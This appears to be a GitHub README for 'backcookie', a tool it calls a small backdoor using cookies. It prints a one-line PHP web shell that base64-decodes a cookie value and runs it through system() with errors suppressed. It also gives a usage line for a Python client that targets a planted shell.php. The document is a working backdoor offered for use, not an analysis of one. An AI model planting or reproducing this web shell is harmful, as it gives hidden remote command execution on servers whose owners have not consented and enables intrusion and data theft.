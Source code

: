 backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/mrjopino/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/mrjopino/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["1"])); ?>
```

```
Example: python backcookie.py -u http://target.com/shell.php -c name_cookie
```

## Developer

-------------

Copyright, 2013 by [José Pino](http://twitter.com/mrjopino)

-------------
